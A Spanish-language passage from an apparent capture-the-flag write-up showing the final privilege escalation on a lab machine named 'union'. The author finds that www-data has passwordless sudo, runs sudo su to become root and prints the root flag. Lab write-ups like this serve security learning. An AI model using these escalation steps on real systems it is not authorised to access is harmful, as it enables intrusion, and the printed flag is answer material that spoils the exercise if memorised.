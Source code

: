 estamos como www-data y si doy sudo -l para observar que puedo ejecutar como nivel de sudo vemos una ruta de path, solo con un sudo su tendría que estar dentro sin proporcionar contraseña
```console
www-data@union:~/html$ export TERM=xterm
www-data@union:~/html$ export SHELL=bash
www-data@union:~/html$ ls
challenge.php  config.php  css	firewall.php  index.php
www-data@union:~/html$ sudo -l
Matching Defaults entries for www-data on union:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on union:
    (ALL : ALL) NOPASSWD: ALL
```

```console
www-data@union:~/html$ sudo su
root@union:/var/www/html# whoami
root
root@union:/var/www/html# cat /root/root.txt 
e382630e05c003779f3b38e973137516
root@union:/var/www/html# 
```
por fin tenemos la flag y otra máquina mas hecha:)!
